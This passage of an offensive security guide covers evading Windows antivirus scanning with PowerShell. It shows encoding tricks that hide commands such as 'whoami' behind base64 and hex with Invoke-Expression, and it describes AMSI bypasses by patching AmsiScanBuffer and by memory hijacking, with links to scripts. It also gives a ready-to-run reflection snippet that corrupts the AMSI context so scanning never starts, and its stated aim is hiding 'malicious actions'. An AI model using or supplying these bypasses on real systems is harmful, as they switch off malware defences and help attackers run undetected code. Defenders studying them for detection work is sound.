 - Remove all blank lines and comment lines

- Try to change IP to decimal or any other format
```
192.168.1.1 --> 3232235777
```

- Being creative and using common sense

- Use different encoding formats, like **base64** or **hex**

> Using base64 (with more obfuscation)
```powershell
&("{1}{0}"-f"x","iE")([SyStEm.TeXt.EnCoDiNg]::uNiCoDe.GetString([sYsTeM.cOnVeRt]::("{2}{0}{1}"-f"aSe64StRiNg","","fRoMb")('dwBoAG8AYQBtAGkA')))
```

> Using hexadecimal data (example with "whoami")
```powershell
&("{1}{0}"-f"eX","I")(("77 68 6F 61 6D 69" -sPlIt ' ' |FoReAcH-ObJeCt {[char][byte]"0x$_"}) -jOiN '')
```

### AMSI Bypass

As I said before, this trick is done in memory so our malicious actions are not analyzed. To check if the AMSI has been bypassed we can execute "**AmsiUtils**" in our terminal, if the command gives error and it is flagged as a virus, it means that it is active.

There are multiple techniques to achieve the bypass:

- Patch Method

It is a powershell scripts that locates **AmsiScanBuffer** memory address to write on it certain values and make it always return **False** like if it didn't found malware

[Here](https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4#file-amsi-patch-ps1) you can find the script

- Memory Hijacking

As the patch method, it hooks the **AmsiScanBuffer** function to make it never detect malware

[Here](https://gist.github.com/D3Ext/bf57673644ba08e729f65892e0dae6c4#file-memory-hijacking-ps1) here you have the script

- Forcing an error

The function **amsiInitFailed()** always exit when it is assigned with a Boolen value, so the **AMSI** never starts working

Just execute this:

```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```
